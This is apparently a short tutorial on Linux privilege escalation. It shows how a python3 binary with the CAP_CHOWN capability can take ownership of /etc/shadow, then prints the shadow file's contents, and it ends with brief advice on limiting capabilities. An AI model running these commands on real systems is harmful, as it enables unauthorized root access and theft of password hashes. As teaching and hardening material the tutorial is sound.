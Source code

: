 # Privilege Escalation via CAP_CHOWN

The capability `CAP_CHOWN` allows us to **change the ownership of any file**.

```shell
user@pwn:~$ sudo /usr/sbin/setcap cap_chown+ep ./python3
user@pwn:~$ getcap -r ./python3
./python3 = cap_chown+ep
```

Let's suppose the Python binary has this capability, we can change the owner of the shadow file, change the root password, and escalate privileges:

```shell
user@pwn:~$ cat /etc/passwd | grep ^user
user:x:1000:1000:user,,,:/home/user:/bin/bash
./python3 -c 'import os;os.chown("/etc/shadow",1000,1000)'
```

Now we can read the /etc/shadow file:

```shell
user@pwn:~$ ./python3 -c 'import os;os.chown("/etc/shadow",1000,1000)'
user@pwn:~$ ls -la /etc/shadow
-rw-r----- 1 user user 1610 oct 25 12:40 /etc/shadow
user@pwn:~$ cat /etc/shadow
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.:18918:0:99999:7:::
daemon:*:18667:0:99999:7:::
```

# Defense 

Defending against capabilities can be challenging. Here are some key points to consider:

- Avoid using unnecessary capabilities: Only enable capabilities that are essential for the task at hand.
- Ensure capabilities cannot be exploited: Regularly review and audit capabilities to prevent potential abuse.